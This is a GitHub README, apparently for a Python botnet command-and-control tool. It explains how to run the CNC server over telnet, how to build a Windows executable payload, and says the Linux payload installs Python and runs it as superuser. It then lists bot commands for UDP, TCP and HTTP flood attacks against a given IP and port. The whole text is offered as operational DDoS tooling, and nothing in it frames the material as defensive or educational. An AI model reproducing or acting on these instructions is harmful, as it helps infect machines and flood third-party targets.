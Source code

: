 <p align="center" width="100%">
    <img width="100%" src="https://user-images.githubusercontent.com/73953379/222469028-8940929c-4dd0-4f38-a718-185d2efd9b32.png">
</p>

Credit for main functions: wodxgod

WORKS ONLY WITH PUBLIC IP

## HOWTO

1. **Download PuTTY**

2. **Install Requirements**
   Open cmd in the folder and run:
   ```
   pip install -r requirements.txt
   ```

3. **Add Methods**
   To add methods, create a method.py script in the "Commands" directory, then add the command in the main script "cnc.py".

4. **Connect from PuTTY**
   Use telnet/raw to connect.

5. **Payload for Windows**
   The payload is an executable that can be created using `autopytoexe.bat`.

6. **Payload for Linux**
   The payload is a bash file that installs Python and then runs it as a superuser.

## USAGE EXAMPLES

### Example 1: UDP Flood
```
!udp [IP] [PORT] [TIME] [SIZE]
```

### Example 2: TCP Flood
```
!tcp [IP] [PORT] [TIME] [SIZE]
```

### Example 3: HTTP Request Flood
```
!http_req [URL] [PORT] [TIME]
```

### Example 4: Get IP from URL
```
!url_to_ip [URL]
```

### Example 5: Get Location from IP
```
!ip_to_location [IP]
```
